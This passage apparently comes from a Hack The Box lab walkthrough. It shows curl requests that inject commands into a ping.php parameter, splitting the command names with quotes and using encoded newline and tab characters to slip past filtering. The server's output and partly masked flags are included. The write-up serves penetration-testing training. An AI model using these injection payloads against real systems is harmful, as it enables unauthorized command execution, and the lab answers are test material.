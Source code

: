 ```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'p'wd"

[SNIP]

/var/www/html/monitoring
```

```bash
%0a'l's
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'l's"

[SNIP]

00112233_flag.txt
css
img
index.php
js
login.php
ping.php
```

```bash
%0a'c'at%0900112233_flag.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'c'at%0900112233_flag.txt"

[SNIP]

HTB{bdd8a***************************} 📌
```

---

### Initial Access

> Now that we've thoroughly enumerated and attacked the external perimeter and uncovered a wealth of findings, we're ready to shift gears and focus on obtaining stable internal network access. Per the SoW document, if we can achieve an internal foothold, the client would like us to see how far we can go up to and including gaining `Domain Admin level access`.

Questions:
1. Submit the contents of the flag.txt file in the `/home/srvadm` directory. `b447c***************************`
